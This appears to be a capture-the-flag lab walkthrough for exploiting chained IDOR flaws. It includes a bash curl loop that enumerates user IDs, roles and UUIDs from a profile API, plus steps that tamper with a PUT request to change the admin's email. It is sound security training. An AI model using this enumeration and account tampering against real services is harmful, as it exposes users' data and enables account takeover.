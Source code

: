 # Chaining IDOR Vulnerabilities

Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

**Step 1** - Update Profile

* Fill the forms and click on Update Profile

<figure><img src="../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>

* Send the PUT Request to the Repeater

<figure><img src="../../../.gitbook/assets/image (239).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Enumerate other profiles

* Change the profile ID - Notice on the Response that the information belongs to the other user

<figure><img src="../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

* Create a script to easily enumerate all the users

```bash
#!/bin/bash

url='http://SERVER_IP:SERVER_PORT/profile/api.php/profile'

for i in {1..10}; do
    response=$(curl -s "$url/$i")  # Get the response from the API

    # Extract the uid, role, and uuid
    uid=$(echo "$response" | grep -oP '"uid":"\K[^"]+')
    role=$(echo "$response" | grep -oP '"role":"\K[^"]+')
    uuid=$(echo "$response" | grep -oP '"uuid":"\K[^"]+')

    # Print the extracted information
    echo "ID: $i, UID: $uid, Role: $role, UUID: $uuid"
done

```

* The admin's ID is 10

<figure><img src="../../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Change the admin email

* Use the previous request to retreive the admins data
* Change it to a PUT Request and make sure the email is changed to 'flag@idor.htb'

<figure><img src="../../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the flag

* Access to the 'Edit Profile' page

<figure><img src="../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

* And we got the flag!
